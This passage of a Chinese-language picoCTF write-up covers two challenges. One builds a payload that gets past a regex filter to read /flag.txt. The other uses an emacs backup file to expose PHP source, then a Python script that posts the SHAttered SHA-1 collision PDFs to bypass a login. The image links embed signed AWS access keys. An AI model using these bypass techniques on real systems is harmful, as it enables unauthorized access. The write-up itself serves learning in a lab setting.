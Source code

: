 ![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_db51d8dd99604515ac62656f41de8b51.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949600&Signature=Uz5A%2FdthrhT%2BjMsj0Eq3uKVxx08%3D)
> 這些事regex過濾的

要搭建出`open("/flag.txt").read()`
但`/`被過濾了，可以使用`chr(47)`代替
`.txt`的這個副檔名也被過濾，使用`+`來做串接
最終得到`open(chr(47) + "flag" + "." + "txt").read()`

### Apriti sesamo
這題是個登入頁面，提示說到backup file和開發者是使用emacs
而emacs在編輯文件時會自己創建備份檔案，其名稱為`原檔名 + ~`
而開發者可能會不小心也將備份檔案也一併，因此在url後方加上~，發現多出一段註解
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_aae47e36ec3dce090eceb6f6df454c74.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760949607&Signature=4dzrSxTDkXXKvgWUVtMOvIPK9H8%3D)

```python
if ($_POST['username'] == $_POST['pwd']) {
    echo "Failed! Even values must match.";
}
else if (sha1($_POST['username']) === sha1($_POST['pwd'])) {
    echo file_get_contents("../flag{...}");
}
else {
    echo "Failed! Even values must match.";
}
```
所以username和pwd的部分要填入不同的值，但其sha1是一樣的，這就用到sh1 collision attack，而有兩份pdf是有相同的sha1，並用其內容作為username和pwd

```python
import requests
import urllib.request

pdf1 = urllib.request.urlopen("https://shattered.io/static/shattered-1.pdf").read()[:500]
pdf2 = urllib.request.urlopen("https://shattered.io/static/shattered-2.pdf").read()[:500]

r = requests.post('http://verbal-sleep.picoctf.net:56577/impossibleLogin.php',
                  data = {'username': pdf1, 'pwd' : pdf2})

print(r.text)
```